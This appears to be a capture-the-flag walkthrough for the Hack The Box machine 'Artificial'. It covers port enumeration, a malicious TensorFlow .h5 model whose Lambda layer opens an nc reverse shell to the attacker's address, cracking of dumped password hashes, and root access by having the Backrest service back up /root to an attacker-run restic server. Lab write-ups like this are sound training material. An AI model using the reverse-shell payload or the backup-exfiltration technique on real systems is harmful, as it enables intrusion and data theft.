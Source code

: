 ```yaml
---
name: Artificial
difficulty: easy
os: linux
platform: htb
date: 2025/07/01
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/e6633d6c2b1d824c3756eb21aeed7590.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.74 -o content/allPortsFiltered
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
We can see that ports 22 (SSH) and 80 (HTTP) are open.

When accessing `http://10.10.11.74` it redirects to `http://artificial.htb`, which is a custom domain. We need to add this domain to our `/etc/hosts` file:
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

Now we can access the web server using the custom domain `http://artificial.htb`.

We create an account in the web application, which is a simple login page. After creating an account, we can log in with the credentials we set.

For the directory enumeration, we can use tools like `gobuster` or `dirb` to find hidden directories and files.
```bash
gobuster dir -u http://artificial.htb -w /usr/share/wordlists/dirb/common.txt
```
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 857]
/logout               (Status: 302) [Size: 189] [--> /]
```
There are no interesting hidden directories. All of them are related to the web app functionality.


## User Exploitation

After registering and logging in, we can access the `/dashboard` page. The dashboard contains a form to upload `.h5` files.

We can generate a malicious `.h5` file that contains a payload to execute arbitrary code. We will use this github repository, `https://github.com/Splinter0/tensorflow-rce` to create the file.

We add use the docker image provided in the repository to generate the `.h5` file:
```bash
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

We upload the generated `.h5` file to the web application. The application processes the file and executes the payload, which opens a reverse shell to our machine. 

We can read the database and find all users and their hashed passwords. The database is stored in a file called `instance/users.db`.
``` 
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
```

We use `https://crackstation.net/` to crack the password hashes. After cracking, we find the following credentials
```bash
gael:mattp005numbertwo
royer:marwinnarak043414036
```

We use gael's credentials to log in though SSH:
```bash
ssh gael@artificial.htb
```

Then, we can read the user flag:
```bash
cat /home/gael/user.txt
```
```
user flag value
```

## Root Privilege Escalation

We do id to check the privileges of the user `gael`:
```bash
id
```
```
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

We look for files/directories with sysadm ownership:
```bash 
ls -la / | grep sysadm
```
```
265127-/var/backups:
265128-total 51220
265129--rw-r--r-- 1 root root      38602 Jun  9 10:48 apt.extended_states.0
265130--rw-r--r-- 1 root root       4253 Jun  9 09:02 apt.extended_states.1.gz
265131--rw-r--r-- 1 root root       4206 Jun  2 07:42 apt.extended_states.2.gz
265132--rw-r--r-- 1 root root       4190 May 27 13:07 apt.extended_states.3.gz
265133--rw-r--r-- 1 root root       4383 Oct 27  2024 apt.extended_states.4.gz
265134--rw-r--r-- 1 root root       4379 Oct 19  2024 apt.extended_states.5.gz
265135--rw-r--r-- 1 root root       4367 Oct 14  2024 apt.extended_states.6.gz
265136:-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 backrest_backup.tar.gz
```
We find a file called `backrest_backup.tar.gz` owned by `root:sysadm`. It looks like a compressed backup file. We can extract it to see its contents:
```bash
tar -xvf backrest_backup.tar.gz
```
```
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

In `backrest/.config/backrest/config.json` we find the following content:
```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

This Bcrypt password is coded in base64. We can decode it to get the actual Bcrypt hash:
```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
```
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Bcrypt is an algorithm used for hashing passwords. The password for the user `backrest_root` is hashed using bcrypt. We can use a tool like `hashcat` or `john the ripper` to crack the password.
```bash
hashcat -m 3200 password.txt /usr/share/wordlists/rockyou.txt
```
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

We find that there is a backrest service running on internal port 9898. We can use `ssh` to port forward this port to our local machine:
```bash
ssh -L 9898:localhost:9898 gael@artificial.htb
```

Now we can access the backrest service on our local machine at `http://localhost:9898`.
We can log in using the credentials `backrest_root:!@#$%^`.


Create a new repo in the backrest service connecting it to a local rest service.
Create a plan which copies `/root` to the remote repo.

We create a initialize rest server:
```bash
RPORT=12345
NAME=backup_name
./rest-server --listen ":$RPORT"
```

We create a new repository in the local rest server:
```bash
restic init -r "rest:http://localhost:$RPORT/$NAME"
```

We create a new repository in the backrest service:
```
Repo Name: backup
Repository URL -> rest:http://10.10.14.175:9321/backup
Password: wak
```

We create a plan in the backrest service:
```
Plan Name: backup
Repository: backup
Path: /root
```

We run the plan to copy the `/root` directory to the remote repository:
```
Backup Now
```

When the backup is complete, we can check the contents of the local rest repository:
```bash
restic restore -r "/tmp/restic/backup" latest --target .
```

We enter the password `wak` when prompted. This will restore the contents of the `/root` directory to the current directory.

We can now read the root flag:
```bash
cat root/root.txt
```
```
root flag value
```

## Conclusion

